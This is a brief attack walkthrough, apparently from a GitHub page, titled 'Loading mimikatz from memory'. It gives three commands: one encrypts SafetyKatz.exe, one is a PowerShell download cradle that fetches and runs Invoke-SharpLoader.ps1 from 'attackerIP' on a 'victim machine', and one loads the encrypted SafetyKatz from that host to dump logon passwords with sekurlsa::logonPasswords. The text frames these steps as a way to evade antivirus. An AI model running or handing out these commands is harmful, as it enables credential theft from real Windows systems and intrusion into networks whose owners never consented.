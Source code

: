 <h1>Loading mimikatz from memory</h1>


<h2><b>Run the following command on your local machine, in <u>pwsh</u> (powershell linux enviornment)</b></h2>

````bash
Invoke-SharpEncrypt -file C:\PathToFile\SafetyKatz.exe -password YourPassw0rd -outfile SafetyKatz.enc
````

<p>Once we hace our `.enc` file, we can upload the <b>Invoke-SharpLoader.ps1</b> to the victim machine</p>

````powershell
IEX (New-Object Net.WebClient).downloadString('http://attackerIP/Invoke-SharpLoader.ps1')
````

<p>Now, sharpLoader is on the victim machine, now we can decrypt the .enc file, from that way</p>

````powershell
Invoke-SharpLoader -location http://attackerIP/SafetyKatz.enc -password YourPassw0rd -argument privilege::debug -argument2 sekurlsa::logonPasswords
````
